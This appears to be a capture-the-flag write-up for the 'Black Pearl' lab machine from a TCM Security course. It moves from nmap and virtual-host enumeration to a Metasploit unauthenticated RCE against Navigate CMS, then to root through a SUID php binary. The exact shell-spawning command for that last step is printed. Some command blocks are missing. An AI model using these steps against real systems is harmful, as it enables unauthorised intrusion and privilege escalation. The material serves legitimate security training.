


# Black Pearl

[TOC]

## Introduction

This Black Pearl Machine was especially developed for the TCM Security Course.

## Enumeration

First we need to find out the IP Address of the target which is sitting in our network.

We can use nmap or netdiscover or fping to perform this task. In our case we are going to use netdiscover:

```
netdiscover -r 192.168.126.0/24
```

Great! According to the results we should

Let us start by performing an nmap scan on the target machine in order to know what services it is hosting.

```bash
nmap 192.168.126.136 -p- -T4 -A
```

> 22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
> | ssh-hostkey: 
> |   2048 66381450ae7dab3972bf419c39251a0f (RSA)
> |   256 a62e7771c6496fd573e9227d8b1ca9c6 (ECDSA)
> |_  256 890b73c153c8e1885ec316ded1e5260d (ED25519)
> 53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
> | dns-nsid: 
> |_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
> 80/tcp open  http    nginx 1.14.2
> |_http-title: Welcome to nginx!
> |_http-server-header: nginx/1.14.2
> Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Great! Let's start by focusing on the HTTP port since SSH and DNS are not known such easily exploitable services.

### HTTP

The webpage displays that nginx has been installed without much further information.

Let's perform some directory enumeration:


Unfortunately, this results downloads a file that tells us not to focus on this web page. After further enumeration i finally decided to inspect the HTML code of the web page and found about a user: alek@**blackpearl.tcm** 




This hints us that there is a Virtual Host called blackpearl.tcm in the target machine which we can verify using the command below:


This way we are sending DNS queries to the target server that will target itself on 127.0.0.1, thus informing us about this Virtual host. Add this line to /etc/hosts file:

```
<ip> blackpearl.tcmm
```

If we go to the browser we will get a different web page now. Let's directory bust this one too since we cannot really move on from here anyways.


Going to the /navigate directory reveals the web server is using the Navigate CMS.

A quick search online also reveals an RCE for Unauthenticated Users! On top of this, it has a Metasploit module and our machine is clearly vulnerable since the exploit targets versions <= 2.8 and the server is using version 2.8!



Great! We just got a shell as user www-data!

### Privilege escalation

We are going to take advantage of the SUID bit on the php binary to get root. Using the query below we are able to find all binaries with SUID bits set:

```
find / -type f -perm -04000 -ls 2>/dev/null
```

One of these binaries is php7.3 which is easily exploitable according to GTFOBins with the command below:

```
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
```

We are root!
